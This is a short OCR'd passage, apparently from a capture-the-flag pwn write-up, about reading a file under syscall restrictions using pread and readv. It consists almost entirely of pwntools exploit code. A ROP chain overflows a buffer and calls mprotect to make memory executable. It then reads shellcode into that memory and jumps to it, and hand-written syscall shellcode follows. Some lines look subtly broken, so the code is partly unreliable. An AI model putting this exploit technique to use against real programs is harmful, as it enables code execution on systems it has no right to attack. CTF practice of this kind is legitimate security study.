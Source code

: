 > **shellcode**
>
> ```python
> shellcode += shellcraft.amd64.linux.pread('rax', 'rsp', 0x200, 0)
> 
> 
> shellcode += """
> mov rdi, 3
> mov rsi, rsp
> mov rdx, 0x100
> mov r10, 0
> mov rax, 0x11
> syscall
> """   # read
> ```

#### readv

> **rop**
>
> ```python
> bss_addr = 0x000000000404020 # 写bss段
> exec_fd = (bss_addr >> 12) << 12
> rop = b"a" * 0x18
> rop += flat(pop_rdi, exec_fd, pop_rsi, 0x1000, pop_rdx_r12, 7, 0, libc.sym["mprotect"])
> rop += flat(pop_rdi, 0, pop_rsi, exec_fd, pop_rdx_r12, 0x1000, 0, libc.sym["read"], exec_fd)
> 
> sh.sendline(rop)
> sh.sendline([shellcode]) # 填写shellcode
> ```

> **shellcode**
>
> ```python
> shellcode += '''
> push 0x200
> push 0x200
> mov [rsp],rsp
> '''
> shellcode += shellcraft.amd64.linux.readv('rax', 'rsp', 1)
> 
> 
> shellcode += """
> push 0x200
> push 0x200
> mov [rsp],rsp
> mov rdi, 3
> mov rsi, rsp
> mov rdx, 0x1
> mov rax, 0x13
> syscall
> """   # read
> ```
